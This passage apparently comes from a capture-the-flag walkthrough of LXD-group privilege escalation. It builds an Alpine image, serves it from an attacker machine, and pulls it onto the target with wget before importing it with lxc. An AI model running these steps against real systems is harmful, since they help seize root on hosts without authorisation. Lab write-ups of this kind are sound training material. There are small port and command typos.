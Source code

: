 ```console
┌──(kali㉿kali)-[~/ContainerImages/alpine]
└─$ sudo $HOME/go/bin/distrobuilder build-lxd alpine.yaml -o image.release=3.8
INFO[2022-04-18T16:35:03-04:00] Downloading source                           
/tmp/distrobuilder/alpinelinux-3.8-x86_64/alpine-minirootfs-3.8.0-x86_64.tar.gz: 100% (5.67MB/s)
/tmp/distrobuilder/alpinelinux-3.8-x86_64/alpine-minirootfs-3.8.0-x86_64.tar.gz.asc: 100% (3.02GB/s)
gpg: Signature made Tue 26 Jun 2018 10:24:34 AM EDT

(...)

┌──(kali㉿kali)-[~/ContainerImages/alpine]
└─$ ls                                                                        
alpine.yaml  lxd.tar.xz  rootfs.squashfs
```

Then we need to transfer `lxd.tar.xz` and `rootfs.squashfs` to the server. We will use a simple Python3 HTTP server.

```console
python3 -m http.server 8000
```

Back on the target machine:

```console 
mike@included:~$ wget http://10.10.14.15:8001/lxd.tar.xz
wget http://10.10.14.15:8001/lxd.tar.xz
--2022-04-18 20:48:57--  http://10.10.14.15:8001/lxd.tar.xz
Connecting to 10.10.14.15:8001... connected.
HTTP request sent, awaiting response... 200 OK
Length: 864 [application/x-xz]
Saving to: ‘lxd.tar.xz’

lxd.tar.xz          100%[===================>]     864  --.-KB/s    in 0s      

2022-04-18 20:48:57 (17.7 MB/s) - ‘lxd.tar.xz’ saved [864/864]

mike@included:~$ wget http://10.10.14.15:8001/rootfs.squashfs
wget http://10.10.14.15:8001/rootfs.squashfs
--2022-04-18 20:49:12--  http://10.10.14.15:8001/rootfs.squashfs
Connecting to 10.10.14.15:8001... connected.
HTTP request sent, awaiting response... 200 OK
Length: 2052096 (2.0M) [application/octet-stream]
Saving to: ‘rootfs.squashfs’

rootfs.squashfs     100%[===================>]   1.96M  3.27MB/s    in 0.6s    

2022-04-18 20:49:13 (3.27 MB/s) - ‘rootfs.squashfs’ saved [2052096/2052096]
```

First import the image with `lcx`.

```console
mike@included:~$ lxc image import lxd.tar.xz rootfs.squashfs --alias alpine
```
